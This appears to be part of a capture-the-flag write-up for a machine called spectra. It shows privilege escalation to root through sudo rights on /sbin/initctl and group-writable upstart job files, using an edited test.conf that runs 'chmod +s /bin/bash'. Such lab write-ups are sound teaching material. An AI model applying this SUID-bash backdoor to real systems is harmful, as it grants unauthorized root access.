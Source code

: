 # Root

## Initctl

Checking sudo permissions for katie we are able to run `/sbin/initctl` as root on the machine. This means we are able to start and stop jobs in the `/etc/init` directory.

```
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

Checking the directory we see that most files aren't writeable by us, but 11 odd looking test files are owned by the developers group which gives us write-access since we are in the same group.

```
katie@spectra ~ $ ls -la /etc/init
total 768
drwxr-xr-x  2 root root       12288 Feb  3 16:46 .
drwxr-xr-x 63 root root        4096 Feb 11 23:12 ..
-rw-r--r--  1 root root         358 Dec 22  2020 activate_date.conf
...[snip]...
-rw-rw----  1 root developers   478 Jun 29  2020 test.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test1.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test10.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test2.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test3.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test4.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test5.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test6.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test7.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test8.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test9.conf 
...[snip]...
```

```
katie@spectra ~ $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
```

Exploiting the sudo permissions on this with file write is trivial. The only thing we have to do is to add our code we want to run as root at the top of the script block in the job configuration file.

```
katie@spectra ~ $ vi /etc/init/test.conf
```

We will in this case choose to give bash the suid bit on starting the job.

```
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script
	chmod +s /bin/bash
    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script

```